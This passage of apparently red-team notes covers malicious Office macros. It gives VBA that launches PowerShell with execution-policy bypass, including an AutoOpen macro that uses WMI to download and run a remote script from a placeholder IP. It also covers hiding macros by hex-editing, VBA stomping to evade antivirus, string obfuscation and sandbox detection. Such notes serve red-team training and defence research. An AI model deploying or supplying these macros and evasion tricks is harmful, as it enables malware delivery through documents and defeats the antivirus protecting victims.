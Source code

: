 Alternate way of execution:

```text
Sub Launch()
    Dim str As String
    str = Privacy("""nzl(nkm ubbQ://<ip>mxU2.blb -xdzygdnrQgmdnUP)""")
    Set wshShell = CreateObject("WScript.Shell")
    wshShell.Run ("powershell.exe -ep bypass -c " & str)
End Sub
```



#### Hiding Macros

Using [FlexHex ](http://www.flexhex.com/)we can open Excel/Word Files and hex edit them. Editing "Module=NewMacros" to Null Bytes leads to Office no longer displaying the macros \(but still running them\).

#### VBA Stomping

Macros get compiled into P-Code, which is executed whenever the document is opened on a computer with the exact same version of office. Otherwise the textual version is used. Most AV only analyze the textual version, ignoring the P-Code - therefore we can remove the textual source and evade AV that way \(Edit to zeros in FlexHex\). On first execution of the macro, the P-Code will be decompiled and written back as a textual version.

This can be automated using [EvilClippy](https://github.com/outflanknl/EvilClippy) .

#### Using WMI to break Parent/Child Relationship

Powershell as a child of word is very suspicious, using WMI we can change that:

```text
Sub SomeMacro
    strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://<ip>/script.txt'))"
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
Sub AutoOpen()
SomeMacro
End Sub
```

#### Obfuscating VBA

We can use custom ciphers on strings in the document \(this is surprisingly effective\).

#### Detect Running in a Sandbox

Some AV Vendors will rename the file on execution, which is easy to check for us:

```text
If ActiveDocument.Name <> Decrypt("...") Then
    Exit Function
End If
```



